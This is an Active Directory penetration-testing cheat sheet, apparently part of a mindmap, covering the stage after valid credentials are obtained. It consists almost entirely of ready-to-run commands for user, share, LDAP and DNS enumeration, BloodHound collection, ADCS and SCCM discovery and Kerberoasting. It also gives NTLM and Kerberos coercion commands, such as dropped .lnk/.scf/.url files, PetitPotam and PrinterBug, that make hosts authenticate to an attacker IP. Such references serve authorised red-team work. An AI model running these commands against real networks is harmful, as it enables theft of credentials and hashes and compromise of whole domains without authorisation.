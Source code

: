 # Valid Credentials (cleartext creds, nt hash, kerberos ticket)

## Classic Enumeration (users, shares, ACL, delegation, ...)

- Find all users >>> Username
  - `GetADUsers.py -all -dc-ip <dc_ip> <domain>/<username>`
  - `nxc smb <dc_ip> -u '<user>' -p '<password>' --users`
- Enumerate SMB share >>> Scroll shares
  - `nxc smb <ip_range> -u '<user>' -p '<password>' -M spider_plus`
  - `nxc smb <ip_range> -u '<user>' -p '<password>' --shares [--get-file \\<filename> <filename>] `
  - `manspider <ip_range> -c passw -e <file extensions> -d <domain> -u <user> -p <password>`
- Bloodhound Legacy >>> ACL || Delegation || Username
  - `bloodhound-python -d <domain> -u <user> -p <password> -gc <dc> -c all`
  - `rusthound -d <domain_to_enum> -u '<user>@<domain>' -p '<password>' -o <outfile.zip> -z`
  - `import-module sharphound.ps1;invoke-bloodhound -collectionmethod all -domain <domain>`
  - `sharphound.exe -c all -d <domain>`
- Bloodhound CE >>> ACL || Delegation || Username
  - `bloodhound-python -d <domain> -u <user> -p <password> -gc <dc> -c all`
  - `rusthound-ce -d <domain_to_enum> -u '<user>@<domain>' -p '<password>' -o <outfile.zip> -z --ldap-filter=(objectGuid=*)`
  - `sharphound.exe -c all -d <domain>`
  - `SOAPHound.exe -c c:\temp\cache.txt --bhdump -o c:\temp\bloodhound-output --autosplit --threshold 900`
- Enumerate Ldap >>> ACL || Delegation || Username
  - `ldeep ldap -u <users> -p '<password>' -d <domain> -s ldap://<dc_ip> all <backup_folder>`
  - `ldapdomaindump.py -u <user> -p <password> -o <dump_folder> ldap://<dc_ip>:389`
  - `ldapsearch-ad.py -l <dc_ip> -d <domain> -u <user> -p '<password>' -o <output.log> -t all`
- Enumerate DNS >>> New targets (low hanging fruit)
  - `adidnsdump -u <domain>\\<user> -p "<password>" --print-zones <dc_ip>`

## Enumerate ADCS >>> ADCS Exploitation
- `certify.exe find`
- `certipy find -u <user>@<domain> -p '<password>' -dc-ip <dc_ip>`

## Enumerate SCCM >>> SCCM Exploitation
- `sccmhunter.py find -u <user> -p <password> -d <domain> -dc-ip <dc_ip> -debug`
- `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> sccm`
- `SharpSCCM.exe local site-info`

## Scan Auto
- from BH result
  - `AD-miner -c -cf Report -u <neo4j_username> -p <neo4j_password>`
- `PingCastle.exe --healthcheck --server <domain>`
- `Import-Module .\adPEAS.ps1; Invoke-adPEAS -Domain '<domain>' -Server '<dc_fqdn>'`

## Kerberoasting >>> Hash TGS
- `MATCH (u:User {hasspn:true})) RETURN u`
- `GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>`
- `Rubeus.exe kerberoast`

## Coerce
- Drop file
  - .lnk
    - `nxc smb <dc_ip> -u '<user>' -p '<password>' -M slinky -o NAME=<filename> SERVER=<attacker_ip>`
  - .scf
    - `nxc smb <dc_ip> -u '<user>' -p '<password>' -M sucffy -o NAME=<filename> SERVER=<attacker_ip>`
  - .url
    - `[InternetShortcut]... IconFile=\\<attacker_ip>\%USERNAME%.icon`
  - Other files
    - `ntlm_theft.py -g all -s <your_ip> -f test`
- Webdav
  - Enable webclient
    - .searchConnector-ms
      - `nxc smb <dc_ip> -u '<user>' -p '<password>' -M drop-sc`
  - add attack computer in dns
    - `dnstool.py -u <domain>\<user> -p <pass> --record <attack_name> --action add --data <ip_attacker> <dc_ip>`
  - Launch coerce with <attacker_hostname>@80/x as target >>> HTTP Coerce
- RPC call >>> SMB NTLM Coerce
  - `printerbug.py <domain>/<username>:<password>@<printer_ip> <listener_ip>`
  - `petitpotam.py -d <domain> -u <user> -p <password> <listnerer_ip> <target_ip>`
  - `coercer.py -d <domain> -u <user> -p <password> -t <target> -l <attacker_ip>`
- Coerce kerberos >>> SMB Kerberos coerce
  - `dnstool.py -u "<domain>\<user>" -p '<password>' -d "<attacker_ip>" --action add "<dns_server_ip>" -r "<servername>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" --tcp`
    - `petitpotam.py -u '<user>' -p '<password>' -d <domain> '<servername>1UWh...' <target>`

## Intra ID Connect
- Find MSOL
  - `nxc ldap <dc_ip> -u '<user>' -p '<password>' -M get-desc-users |grep -i MSOL`

## Can Connect to a computer >>> Lateral move

## Exploit >>> know vulnerabilities
